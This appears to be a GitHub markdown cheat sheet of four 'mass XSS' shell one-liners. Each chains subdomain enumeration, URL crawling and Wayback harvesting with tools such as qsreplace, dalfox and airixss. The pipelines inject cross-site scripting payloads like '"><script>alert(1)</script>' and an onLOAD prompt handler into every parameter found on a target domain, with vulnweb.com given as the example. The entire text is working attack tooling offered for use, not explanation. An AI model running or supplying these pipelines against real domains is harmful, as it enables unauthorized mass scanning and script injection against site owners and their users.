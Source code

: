 # Mass XSS OneLiners
- Dalfox XSS<br>
`subfinder -d vulnweb.com | httpx | katana -ps | gf xss | qsreplace | anew | dalfox pipe --skip-bav`
- AiriXSS Oneline<br>
`echo vulnweb.com | assetfinder --subs-only | httpx --silent | waybackurls | qsreplace '@x.y"><xss onmouSEOver=prompt(1337)>' | airixss -p 'prompt(1337)' | grep -v 'Not'`
- Freq XSS<br>
`echo vulnweb.com | assetfinder --subs-only | httpx --silent | waybackurls | gf xss | qsreplace '"><script>alert(1)</script>' | freq | grep -v 'Not'`
- Crawling XSS<br>
`echo vulnweb.com | assetfinder --subs-only | httpx --silent -t 95 | katana -xhr -jc -fx -kf all --silent | grep '?' | anew | qsreplace '"><html/onLOAD=prompt(7*7)>' | airixss -p 'onLOAD=prompt(7*7)>' | grep -v 'Not'`
